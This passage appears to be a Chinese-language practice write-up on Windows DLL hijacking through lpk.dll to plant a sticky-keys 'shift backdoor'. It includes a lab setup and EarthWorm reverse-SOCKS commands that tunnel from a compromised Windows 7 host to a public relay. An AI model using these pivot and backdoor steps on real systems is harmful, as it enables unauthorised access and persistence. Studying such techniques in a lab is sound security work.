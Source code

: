 # dll劫持
原理：Windows执行exe的时候会调用lpk.dll这个库，默认调用exe所在目录下的lpk.dll然后就上传lpk.dll到含有会经常执行的exe所在的文件夹，然后当执行这个软件的时候就会运行上传的dll，然后这个dll就会上传shift后门，但是shift后门已经有点不适用了
- Windows从win8开始就默认使用网络级别的验证，就是说输入用户名密码不再是远程连接到目标主机后才输入，而是要再远程到对方系统之前就输入。关闭网络级别的身份验证是取消“仅允许运行使用网络级别身份验证的计算机连接（建议）”选项
- Windows目前对system目录的续写权限设置的比较高，想要写入shift后门就需要很高的权限，而shift后门就是为了提高权限。就冲突了

# 实验环境
- Windows xp 攻击机
- Windows7 被攻击机
- 公网主机 主要用于转发
> 不再一个网段，需要端口转发,实验环境因为这两套系统还有原来的客户端级别的验证方式,假设已经取得了一个shell,(本来想安装一个sqlserver来着 安装包实在太大了  安装上就没法睡觉了 )


# 代理先练一下代理
还是使用ew socks代理,再熟悉一下明天再用别的
```
公网上
./ew_for_Linux32 -s rcsocks -l 1081 -e 8889 
win7上
ew_for_Win.exe -s rssocks -d 45.*.*.190 -e 8889
xp上
Proxifie直接配置全局代理
```

# 上传lpk
